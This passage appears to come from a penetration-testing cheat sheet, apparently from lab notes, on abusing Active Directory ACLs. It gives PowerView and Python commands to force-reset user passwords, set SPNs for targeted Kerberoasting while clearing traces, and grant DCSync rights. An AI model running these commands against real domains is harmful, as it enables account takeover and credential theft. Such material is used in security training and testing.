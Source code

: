 >[!References]
>- [Harmj0y's gist on abusing RBCD with PowerShell/PowerView/PowerMad](https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff)
>- [ired.team](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)



# ACLs/ACEs Abuse
### Force Change User Password
_Note: This doesn't require you to know the owned user's credential_
```powershell
# PowerView
Set-DomainUserPassword -Identity studentadmin -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!')
```

### Change password with credential
_Note: Need to know owned user's password_
```powershell
# Create PSCredential Object
$username='contoso\administrator'
$password=ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)

# Change password with PSCredential
Set-DomainUserPassword -Identity studentadmin -Domain contoso.local -AccountPassword (ConvertTo-SecureString -AsPlainText -Force 'password123!') -Credential $cred
```

### Targeted Kerberoast
This technique will update `ServicePrincipalName` of a user object. Make sure to have a write permission on the user's attributes.
```powershell
# Set SPN
## Windows
Set-DomainObject -Identity sqlsvc -Set @{serviceprincipalname='my/sqlspn'}

# Clear SPN (OPSEC)
Set-DomainObject -Identity sqlsvc -Clear serviceprincipalname
```

There is also a repo [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to automatically discover ACLs from the current user context against other domain objects looking for _Write_ permission on `servicePrincipalName` attribute. 
```bash
python3 targetedKerberoast.py -u jsparrow -p Password123 -d range.net --dc-ip 10.10.10.10
```

### Add DCSync Privilege to object
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=contoso,DC=local" -PrincipalIdentity studentuser -Rights DCSync
```
